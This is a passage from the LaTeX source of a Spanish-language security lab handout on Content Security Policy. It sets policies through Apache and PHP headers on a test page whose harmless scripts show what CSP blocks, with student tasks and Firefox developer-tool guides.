Ud. también puede modificar el archivo mientras el contenedor está corriendo. La desventaja de esto es que para mantener la imagen del contenedor en un tamaño aceptable, se ha instalado un editor de texto de consola muy simple llamado \texttt{nano}, aunque este editor debería ser más que suficiente para hacer una edición de este tipo. Si Ud. no se siente cómodo con este aplicativo, puede agregar un comando de instalación en el archivo \texttt{Dockerfile} con su editor de consola preferido e instalarlo.
Puede encontrar el archivo de configuración \texttt{apache\_csp.conf} en el directorio \path{/etc/apache2/sites-available} dentro del contenedor.
Una vez hecho los cambios en el archivo, necesitara reiniciar el servidor Apache para que los cambios tomen efecto:

\begin{lstlisting}
# service apache2 restart
\end{lstlisting}


\paragraph{Configuración DNS}
Accederemos a los sitios web descriptos más abajo desde nuestra Máquina Virtual. 
Para acceder a ellos usando sus respectivas URLs, deberá agregar las siguientes líneas en el archivo \texttt{/etc/hosts} (Si es que no lo ha hecho antes), de esta forma los hostnames serán mapeados a la dirección IP del contenedor que será el servidor web (\texttt{10.9.0.5}). 
Para realizar el cambio en este archivo deberá hacerlo con privilegios de root (usando sudo)

\begin{lstlisting}
10.9.0.5       www.example32a.com
10.9.0.5       www.example32b.com
10.9.0.5       www.example32c.com
10.9.0.5       www.example60.com
10.9.0.5       www.example70.com
\end{lstlisting}


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{La Página Web para el Experimento}

Los servidores \texttt{example32(a|b|c)} están usando la misma página web \texttt{index.html} que tiene como objeto mostrar como funcionan las políticas CSP.
En esta página existen 6 áreas que van del \texttt{area1} al \texttt{area6}.
Cada área muestra una cadena con la leyenda \texttt{"Failed"}. La página contiene 6 fragmentos de código JavaScript, cada una intenta escribir la cadena \texttt{"OK"} dentro de un área determinada. Si el código JavaSript que corresponde a esa área es ejecutado exitósamente veremos una cadena con la leyenda \texttt{"OK"} de lo contrario veremos \texttt{"Failed"}. En esta página hay un botón que si se clickea desplegará un mensaje de alerta, si el código JavaScript puede dispararse.


\begin{lstlisting}[caption={The experiment web page \texttt{index.html}}]
<html>
<h2 >CSP Experiment</h2>
<p>1. Inline: Nonce (111-111-111): <span id='area1'>Failed</span></p>
<p>2. Inline: Nonce (222-222-222): <span id='area2'>Failed</span></p>
<p>3. Inline: No Nonce: <span id='area3'>Failed</span></p>
<p>4. From self: <span id='area4'>Failed</span></p>
<p>5. From www.example60.com: <span id='area5'>Failed</span></p>
<p>6. From www.example70.com: <span id='area6'>Failed</span></p>
<p>7. From button click: 
      <button onclick="alert('JS Code executed!')">Click me</button></p>

<script type="text/javascript" nonce="111-111-111">
document.getElementById('area1').innerHTML = "OK";
</script>

<script type="text/javascript" nonce="222-222-222">
document.getElementById('area2').innerHTML = "OK";
</script>

<script type="text/javascript">
document.getElementById('area3').innerHTML = "OK";
</script>

<script src="script_area4.js"> </script>
<script src="http://www.example60.com/script_area5.js"> </script>
<script src="http://www.example70.com/script_area6.js"> </script>
</html>

\end{lstlisting}
 


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Estableciendo Políticas CSP}  

Las políticas CSP son establecidas por medio de Headers HTTP. Típicamente existen dos formas para setear estos headers, la primera es a través de un servidor web (Como puede ser Apache) y la segunda es a través de la aplicación web.
En este experimento usaremos las dos formas.

\paragraph{Configuración CSP en Apache}
El Servidor Apache puede establecer Headers HTTP para todas sus respuestas, por ende podemos usar Apache para establecer políticas CSP. En nuestra configuración hemos configurados tres sitios web, pero solamente el segundo \texttt{example32b}  establece políticas CSP (marcado con \ding{110})
De esta forma cuando visitemos  \texttt{example32b} Apache será el encargado de especificar los encabezados de esta política CSP en todas las respuestas relacionadas a este sitio.


\begin{lstlisting}
# Purpose: Do not set CSP policies
<VirtualHost *:80>
    DocumentRoot /var/www/csp
    ServerName www.example32a.com
    DirectoryIndex index.html
</VirtualHost>

# Purpose: Setting CSP policies in Apache configuration
<VirtualHost *:80>
    DocumentRoot /var/www/csp
    ServerName www.example32b.com
    DirectoryIndex index.html
    Header set Content-Security-Policy " \          (*@\ding{110}@*)
             default-src 'self'; \                  (*@\ding{110}@*)
             script-src 'self' *.example70.com \    (*@\ding{110}@*)
           "
</VirtualHost>

# Purpose: Setting CSP policies in web applications
<VirtualHost *:80>                                  (*@\ding{108}@*)
    DocumentRoot /var/www/csp
    ServerName www.example32c.com
    DirectoryIndex phpindex.php
</VirtualHost>
\end{lstlisting}
 

\paragraph{Configuración CSP en Aplicaciones Web}
Para el tercer \texttt{VirtualHost} dentro de nuestro archivo de configuración (marcado con \ding{108}), no hemos establecido ninguna política CSP.
Sin embargo su punto entrada en vez de ser \texttt{index.html} es un archivo php llamado  \texttt{phpindex.php}, que será el encargado de generar una respuesta HTTP agregando headers para establecer políticas de CSP por medio de código PHP.

\begin{lstlisting}
<?php
  $cspheader = "Content-Security-Policy:".
               "default-src 'self';".
               "script-src 'self' 'nonce-111-111-111' *.example70.com".
               "";
  header($cspheader);
?>

<?php include 'index.html';?>
\end{lstlisting}



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Tareas del Laboratorio} 

Después de correr los contenedores y habiendo hecho los cambios en \texttt{/etc/hosts}, por favor entre a las URLs descriptas abajo desde su Máquina Virtual 

\begin{lstlisting}
http://www.example32a.com
http://www.example32b.com
http://www.example32c.com
\end{lstlisting}

\begin{enumerate}

\item Decriba y explique sus observaciones al visitar estos sitios.

\item Haga click en el botón en cada uno de los sitios web, describa y explique sus observaciones. 

\item Modifique la configuración del servidor en \texttt{example32b} (A través del archivo de configuración de Apache), para que las Áreas 5 y 6 muestren la leyenda OK.
Por favor incluya las modificaciones realizadas en esta configuración en el informe del laboratorio

\item Modifique la configuración del servidor en \texttt{example32c} (Usando el código PHP), para que las  Áreas 1, 2, 4, 5 y 6 muestren la leyenda OK.
Por favor incluya las modificaciones realizadas en esta configuración en el informe del laboratorio

\item Por favor explique porque CSP puede ayudarnos a prevenir Ataques de Cross-Site Scripting.

\end{enumerate}
 




% *******************************************
% SECTION
% ******************************************* 
\section{Guías}
\label{xss:sec:guidelines}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\devtoolFigs}{../Web_Common/Figs}


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Usando \texttt{"HTTP Header Live"} para inspeccionar Headers HTTP}
\label{web:sec:httpheaderlive}

La versión de Firefox 60 de nuestra Máquina Virtual de Ubuntu 16.04 no soporta el plugin \texttt{LiveHTTPHeader}, que fue usado en nuestra Máquina Virtual de Ubuntu 12.04.
Dada esta situación, se usará \texttt{"HTTP Header Live"} como reemplazo.
Las instrucciones de como habilitar y usar este plugin se muestran en la figura Figure~\ref{web:fig:httpheader} solamente haga click en el ícono mosotrado en el marcador \ding{192}; aparecerá una barra lateral en la izquierda, asegúrese que \texttt{HTTP Header Live} este seleccionada en la posición mostrada en el marcador \ding{193}. Luego haga click en cualquier link dentro de la página, todas los Requests HTTP serán capturados y mostrados dentro de la barra lateral mostrada en el marcador  \ding{194}.
Si hace click en cualquiera Request HTTP, se abrirá un pop-up que mostrará el Request HTTP seleccionado. Desafortunadamente hay un bug en este plugin (que aún se encuentra en desarrollo); no se mostrará nada dentro de este pop-up al menos que ud. cambie el tamaño del pop-up (Al parecer el evento de re-drawing se ejecuta automáticamente cuando se abre el pop-up, pero cambiando su tamaño ocasiona que este evento sea disparado y en consecuencia se renderize el contenido en pantalla)


\begin{figure}[htb]
\begin{center}

\includegraphics[width=0.85\textwidth]{\devtoolFigs/HTTPHeaderLive.pdf}
\end{center}
\caption{Hablitando el plugin HTTP Header Live}
\label{web:fig:httpheader}
\end{figure}




% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Usando Web Developer Tool para inspeccionar Headers HTTP}
\label{web:sec:web_dev_tools}

Existe otra herramienta provista por Firefox que puede ser muy útil para inspeccionoar Encabezados HTTP.
Esta herramienta es la Web Developer Network Tool. En esta sección, vamos a cubrir algunas de las features más importantes de esta herramienta.
La Web Developer Network Tool puede ser habilitada siguiendo estos pasos:

\begin{lstlisting}
Click Firefox's top right menu --> Web Developer --> Network
 or 
Click the "Tools" menu --> Web Developer --> Network 
\end{lstlisting}

Usaremos la página de login de Elgg como ejemplo.
La Figure~\ref{fig:webdevtools_01_request} muestra el Request HTTP POST que se envía al momento del login dentro de la Network Tool.

\begin{figure}[htb]
\begin{center}

\includegraphics[width=0.8\textwidth]{\devtoolFigs/webdevtools_01_request.png}
\end{center}
\caption{Request HTTP en la Web Developer Network Tool}
\label{fig:webdevtools_01_request}
\end{figure}

Para más detalles del Request, podemos hacer click en un Request HTTP específico y se abrirán dos paneles con información detallada del mismo. (Ver Figure~\ \ref{fig:webdevtools_02_two_panes})

\begin{figure}[htb]
\begin{center}
	
\includegraphics[width=0.95\textwidth]{\devtoolFigs/webdevtools_02_two_panes.png}
\end{center}
\caption{Request HTTP y Detalles del Request}
\label{fig:webdevtools_02_two_panes}
\end{figure}


Los detalles del Request seleccionado serán mostrados en el panel de la derecha.
La Figure~\ref{fig:webdevtools_03_post_headers} muestra los detalles del Request de Login en el Tab de 
\texttt{Headers} (Estos detalles incluyen el método del Request, la URL y la Cookie). En el panel derecho se pueden observar los Headers de la respuesta como también los del request.
Para chequear los parámetros involucrados en un request HTTP, podemos usar el tab \texttt{Params}. La Figure~\ref{fig:webdevtools_03_post_params} nos muestra los parámetros enviados en el request del login que se envía a Elgg, estos incluyen el \texttt{username} y el \texttt{password}. Esta herramienta puede ser usada para inspeccionar tanto Request HTTP GET como POST.

\begin{figure}[htb]
 \centering
 \subfigure[HTTP Request Headers]{
        
\includegraphics[width=0.6\textwidth]{\devtoolFigs/webdevtools_03-1.png}
        \label{fig:webdevtools_03_post_headers}
 }
 \subfigure[HTTP Request Parámetros]{
        
\includegraphics[width=0.35\textwidth]{\devtoolFigs/webdevtools_03-2.png}
        \label{fig:webdevtools_03_post_params}
 }
 \caption{HTTP Headers y Parámetros}
\end{figure}


\paragraph{Font Size.} El font size usado por defecto en la Web Developer Tool puede ser algo pequeño, para incrementar el tamaño de la fuente se debe hacer click en cualquier lugar de la ventana de la Network Tool y presionar en simultáneo las teclas \texttt{Ctrl} y \texttt{+} 



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Debugueando JavaScript}
\label{web:sec:jsdebugging}

En muchas ocasiones vamos a necesitar debuguear nuestro código JavaScript. La developer tool de Firefox puede ayudarnos en esta tarea. Esta herramienta tiene la posibilidad de indicarnos el punto exacto en el código donde se produjo el error. A continuación se indica como habilitar el debugging en la Web Developer Tool:

\begin{lstlisting}
 Click the "Tools" menu --> Web Developer --> Web Console
 or use the Shift+Ctrl+K shortcut.
\end{lstlisting}

Una vez situados en la consola, se debe clickear en el tab {\tt JS}. Luego haga click en la flecha que apunta hacia abajo y asegúrese que al costado de {\tt Error} haya una tilde. Si también le interesa activar los mensajes de Warning en la coonsola seleccione {\tt Warnings}. Vea la Figure~\ref{devtool:fig:errocheckmark}.

\begin{figure}[htb]
\begin{center}
  
\includegraphics[width=0.4\textwidth]{\devtoolFigs/errorCheckMark.png}
\end{center}
\caption{Debugueando Código JavaScript (1)}
\label{devtool:fig:errocheckmark}
\end{figure}
 
Si hay errores en el código, se le mostrará un mensaje de error en la consola. Este mensaje indicará el número des línea que causó este error y estará ubicado en el extremo derecho del mensaje. Para ir al lugar exacto donde el código falló, deberá hacer click en el número de línea que es mostrado en el mensaje de error.
Vea la Figure~\ref{devtool:fig:console}.


\begin{figure}[htb]
\begin{center}
  
\includegraphics[width=1.0\textwidth]{\devtoolFigs/consoleError2.png}
\end{center}
\caption{Debugueando Código JavaScript (2)}
\label{devtool:fig:console}
\end{figure}
 




 

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%



% *******************************************
% SECTION
% ******************************************* 
\section{Informe de Laboratorio}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

Debe enviar un informe de laboratorio detallado, con capturas de pantalla, para describir lo que ha hecho y lo que ha observado.
También debe proporcionar una explicación a las observaciones que sean interesantes o sorprendentes.
Enumere también los fragmentos de código más importantes seguidos de una explicación. No recibirán créditos aquellos fragmentos de códigos que no sean explicados.
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\end{document}
